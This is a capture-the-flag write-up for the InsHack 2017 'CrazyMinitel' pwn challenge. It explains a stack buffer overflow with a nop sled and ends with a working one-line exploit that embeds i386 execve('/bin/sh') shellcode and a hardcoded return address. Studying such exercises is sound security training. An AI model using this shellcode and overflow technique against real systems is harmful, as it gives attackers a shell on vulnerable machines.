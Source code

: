 ```yaml
---
title: "CrazyMinitel | InsHack 2017"
categories: ["pwn"]
tags: ["stack overflow", "shellcode"]
Points: 125
Solves: 77
---
```


Today we will solve a simple pwnable challenge by inserting shellcode on the stack with a nop sled, and then jumping to it.

## Checksec
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled       (<- we CAN use shellcode)
PIE:      No PIE
ASLR:     DISABLED          (<- we CAN realiably know where the stack is)
```

## Solution
The program just echos the input. If the input is large enough the buffer is overflowed, so, since we can use shellcode lets just return to our buffer in the stack and run `execve("/bin/sh", NULL, NULL)`.

We can reliably return to our buffer because we can first get its location in gdb and we know it won't change since ASLR is disabled. The address can change slightly since environment variables are stored on the stack and if for example you change directory, $PWD will have a different value and shift the stack around.

To bypass this we can use a `nop sled`. A nop sled is just a bunch of `nop`s (the assembly instruction for no operation, aka does nothing), making it possible to jump anywhere in the nop sled range and execute our shellcode regardless of jumping perfectly to the start of our shellcode or anywhere in the middle of the `nop`s.

The solution is simply:
 - Send `nop..nop..nop...shellcode` for a total length of 230
 - Send `A`'s to pad until we get to the point on the stack where we are about to overwrite the saved `eip`
 - Overwrite the saved `eip` with a value pointing to somewhere in the middle of the nops (find this in gdb). In this case it was `0xbffffaa0`. We write it as `\xa0\xfa\xff\xbf` because the bytes are stored in little endian

```
./vuln $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'.rjust(230,'\x90') + 'A'*(268-230) + '\xa0\xfa\xff\xbf'")
```
